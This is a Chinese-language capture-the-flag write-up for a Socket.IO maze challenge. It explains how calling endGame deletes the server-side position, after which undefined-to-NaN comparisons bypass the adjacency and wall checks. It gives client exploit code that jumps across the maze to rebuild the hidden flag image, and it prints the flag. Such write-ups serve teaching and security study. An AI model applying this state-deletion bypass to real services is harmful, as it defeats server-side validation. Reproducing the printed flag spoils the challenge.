

# Rainbow Road

## 题目简述

题目把一张彩色 flag 图作为巨大迷宫的单元格颜色，Socket.IO 客户端正常只能逐格移动，并且每次仅收到当前位置附近的 $19\times19$ 颜色窗口。服务器每五秒重新生成墙体。`endGame` 会删除当前 socket 的位置，却不关闭连接；后续移动校验对缺失位置使用可选链，导致 `undefined` 进入数值运算并被当成可通过的条件，从而允许在同一连接上任意跳转采样。

## 解题过程

服务端移动校验先读取已删除的状态：

```javascript
const position = userPositions.get(socket.id);

if (
  isAdjacent(x, y, position?.x, position?.y) &&
  canMoveBetween(x, y, position?.x, position?.y)
) {
  userPositions.set(socket.id, { x, y });
  socket.emit("mazeUpdate", getSmallMazeData(x, y));
}
```

调用 `endGame` 后，`position?.x` 和 `position?.y` 都是 `undefined`。`Math.abs(x - undefined)` 得到 `NaN`，而 `NaN > 1` 为 `false`，所以 `isAdjacent` 返回 `true`。墙坐标也变为 `NaN`；`Array.prototype.at(NaN)` 按索引 0 处理，而 `WALLS[0][0]` 恰好不是墙，因此第二个检查也通过。

在每次跳转前发送一次 `endGame`，即可按间隔 10 的网格遍历整个图。每个 `mazeUpdate` 返回局部颜色矩阵，把窗口内非空颜色按绝对坐标合并即可：

```javascript
socket.emit("endGame");
await socket.timeout(200).emitWithAck("move", { x, y });

socket.on("mazeUpdate", ({ colors }) => {
  for (let row = 0; row < colors.length; row++) {
    for (let col = 0; col < colors[row].length; col++) {
      if (!colors[row][col]) continue;
      const absoluteY = row + y - Math.floor(colors.length / 2);
      const absoluteX = col + x - Math.floor(colors[row].length / 2);
      recovered.set(`${absoluteY},${absoluteX}`, colors[row][col]);
    }
  }
});
```

将收集到的十六进制颜色写回对应像素，得到完整图像：



图中文字为：

```text
grey{iM_blu3_da_b4-dEe_daba-dii1!}
```

## 方法总结

- 核心技巧：先删除服务端会话位置，再利用 JavaScript `undefined` 到 `NaN` 的比较语义绕过邻接与墙体检查，批量采样局部视窗。
- 识别信号：事件仅删除状态却不使 socket 失效，而后续代码又对缺失值使用可选链和数值比较时，必须检查 `NaN` 的失败开放行为。
- 复用要点：局部窗口重建要记录窗口中心、半径和绝对坐标；采样步长不应大于窗口覆盖宽度，否则会留下无法恢复的空洞。
